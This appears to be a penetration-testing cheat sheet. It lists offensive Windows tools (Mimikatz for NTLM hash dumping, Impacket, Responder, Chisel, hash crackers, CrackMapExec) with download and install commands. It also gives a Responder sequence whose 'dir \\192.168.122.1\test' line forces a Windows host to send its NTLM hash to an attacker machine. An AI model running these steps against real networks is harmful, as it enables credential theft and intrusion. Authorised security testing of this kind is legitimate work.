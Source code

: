 Download
```powershell
iwr -uri "https://github.com/AlessandroZ/BeRoot/releases/download/1.0.1/beRoot.zip" -Outfile beRoot.zip
```

###  Mimikatz

Dump NTLM hashes and many other powerful things.
 
```powershell
iwr -uri "https://github.com/gentilkiwi/mimikatz/releases/download/2.2.0-20220919/mimikatz_trunk.zip" -Outfile mimikatz_trunk.zip
```

###  Impacket

Collection of Python classes for working with Windows related network protocols. https://github.com/fortra/impacket
```sh
python3 -m venv venv
```

```sh
. venv/bin/activate
```

```sh
pip3 install impacket
```

```powershell
pip install netifaces
```

### Responder

Responder is a LLMNR, NBT-NS and MDNS poisoner, with built-in HTTP/SMB/MSSQL/FTP/LDAP rogue authentication server supporting NTLMv1/NTLMv2/LMv2, Extended Security NTLMSSP and Basic HTTP authentication.

```sh
git clone https://github.com/lgandx/Responder
```

Start responder on attacker machine
```sh 
sudo python3 Responder.py -I eth0
```

Get NTLM hash (on Windows)
```powershell
dir \\192.168.122.1\test
```
### Chisel

TCP/UDP tunnel over HTTP.  Tool to pivot inside internal networks points: https://github.com/jpillora/chisel

### Hashcat + John

Tools for cracking hashes:
- https://www.openwall.com/john/
- https://hashcat.net/hashcat/

### Crackmapexec

A swiss army knife for pentesting networks: https://github.com/byt3bl33d3r/CrackMapExec

